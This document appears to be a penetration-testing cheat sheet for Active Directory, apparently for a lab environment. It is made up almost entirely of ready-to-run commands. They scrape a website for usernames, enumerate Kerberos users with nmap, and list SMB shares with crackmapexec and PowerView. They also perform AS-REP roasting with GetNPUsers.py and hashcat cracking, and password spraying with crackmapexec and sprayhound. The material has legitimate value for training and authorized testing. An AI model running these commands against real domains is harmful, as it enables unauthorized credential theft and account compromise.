 ## Enumerate DC’s anonymously (brute force) - when anonymous sessions are not allowed
```
# First let’s create a user list:
curl -s https://www.hbo.com/game-of-thrones/cast-and-crew | grep 'href="/game-of-thrones/cast-and-crew/'| grep -o 'aria-label="[^"]*"' | cut -d '"' -f 2 | awk '{if($2 == "") {print tolower($1)} else {print tolower($1) "." tolower($2);} }' > got_users.txt

# Nmap attempt
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='sevenkingdoms.local',userdb=got_users.txt" 192.168.56.10
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='essos.local',userdb=got_users.txt" 192.168.56.12


```

# List guest access on shares
```
crackmapexec smb 192.168.56.10-23 -u 'a' -p '' --shares
```
# List shares authenticated 
```
Find-DomainShare -CheckShareAccess -ErrorAction SilentlyContinue   | Where-Object {$_.Name -ne 'print$'} | select Name,ComputerName | ft -AutoSize | Out-File -Encoding utf8 NewShares.txt
Find-DomainShare -CheckShareAccess -ErrorAction SilentlyContinue   | Where-Object {$_.Name -ne 'print$' -and $_.Name -ne 'Admin$' -and $_.Name -ne 'C$' -and $_.Name -ne 'IPC$'} | select Name,ComputerName | ft -AutoSize | Out-File -Encoding utf8 NewShares.txt
crackmapexec smb 192.168.56.10-23 -u 'usernames' -p 'password' --shares
```

# Getting user credentials
## ASREP - roasting
```
GetNPUsers.py north.sevenkingdoms.local/ -no-pass -usersfile users.txt

hashcat -m 18200 asrephash /usr/share/wordlists/rockyou.txt
```

## Password spray
```
#We could try the classic user=password test
crackmapexec smb 192.168.56.11 -u users.txt -p users.txt --no-bruteforce
crackmapexec smb 192.168.56.11 -u users.txt -p users.txt --no-bruteforce --continue-on-success
sprayhound -U ./users.txt -d hackn.lab -dc 10.10.10.1

# Single user, single password
sprayhound -u simba -p Pentest123.. -d hackn.lab -dc 10.10.10.1

# User list, single password
sprayhound -U ./users.txt -p Pentest123.. -d hackn.lab -dc 10.10.10.1

# User as pass with password lowercase
sprayhound -U ./users.txt --lower -d hackn.lab -dc 10.10.10.1

# User as pass with password uppercase
sprayhound -U ./users.txt --upper -d hackn.lab -dc 10.10.10.1


```